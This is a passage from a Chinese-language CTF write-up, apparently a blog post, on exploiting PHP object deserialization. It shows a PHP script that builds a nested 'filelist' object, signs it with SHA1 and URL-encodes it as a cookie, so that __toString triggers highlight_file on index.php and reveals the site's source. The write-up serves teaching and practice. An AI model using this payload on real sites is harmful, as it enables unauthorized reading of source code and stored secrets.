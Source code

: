 简单说就是当你直接调用类这个object的时候，输出的是__tostring()方法中的内容。我们具体看这个__tostring()最后返回的是类中$source变量（为文件路径）的文件内容。那么我们可以通过这个得到index.php的完整文件。

然后我们呢再观察一下post之后是什么效果

<center>![这里写图片描述](img/95918e381b2d38f662d0ad63136a421d.png)</center>

然后我们观察一下cookie会发现很有意思，40位之后的是序列化的东西，前40位是sha1(40位之后的内容)。而且我们发现反序列化的内容就是页面输出的内容，我们可以理解为cookie传值，然后源程序输出了其中的cookie变量反序列化后的值。

那么结合我们想得到index.php所要使用的__tostring()的性质。我们构造序列化的串（反序列化后是一个filelist类，$sorce值是我们想查找的路径，这样在反序列化后）这里我们构造如下

```
<?php
Class filelist{
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}
$a = new filelist();
$b= new filelist();
$b->source = 'index.php';
$a->source=$b;
$d=serialize($a);
$e=sha1($d).$d;
echo urlencode($e);
?>
```

这个时候输出$b这个类的时候,$b->$sorce=$a.再输出$a的时候就会触发$a的__tostring()函数。
